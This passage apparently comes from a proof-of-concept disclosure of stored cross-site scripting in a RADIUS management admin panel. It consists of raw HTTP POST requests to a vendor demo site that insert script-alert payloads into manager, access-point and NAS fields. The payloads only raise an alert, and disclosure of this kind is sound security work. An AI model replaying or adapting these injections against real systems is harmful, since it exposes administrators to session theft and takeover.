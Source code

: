 ```http
enablemanager=1&managername=script&password1=admin&password2=admin&firstname=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&lastname=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&company=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&address=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&city=&zip=&country=&state=&phone=&mobile=&email=&vatid=&lang=English&comment=&Submit=Add+manager
```

### Adding Access Points

```http
POST /admin.php?cont=store_ap HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 190
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_ap
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

​enable=1&name=name&ip=192.168.1.254&accessmode=0&community=Name&apiusername=Name&apipassword=Name&apiver=0&description=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&Submit=Store+AP&id=
```

### Adding NAS

```http
POST /admin.php?cont=store_nas HTTP/1.1
Host: radmandemo.dmasoftlab.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 166
Origin: http://radmandemo.dmasoftlab.com
DNT: 1
Connection: keep-alive
Referer: http://radmandemo.dmasoftlab.com/admin.php?cont=new_nas
Cookie: PHPSESSID=1u7c5e6hnobson7n53vt7o3vq3; listusers_ordercol=username; listusers_ordertype=ASC; newuser_acctype=0; login_admin=admin; login_user=user; lstinv_trtype=0; lstinv_pmstatus=-1; lstinv_trusr=1; lstinv_trman=1; lstinv_paymode0=1; lstinv_paymode1=1; lstinv_paymode2=1; lstinv_paymode3=1; lstinv_paymode4=1; lstinv_paymode5=1; lstinv_paymode6=1; lstinv_paymode7=1; lstinv_paymode8=1; lstinv_paymode9=1; lstinv_paymode10=1; lstinv_paymode11=1; lstinv_paymode12=1; lstinv_paymode13=1
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=Name&nasip=192.168.1.198&type=0&secret=Name&coamode=0&apiusername=&apipassword=&apiver=0&descr=%3Cscript%3Ealert%28%22xss+1d8%22%29%3C%2Fscript%3E&Submit=Add+NAS
```
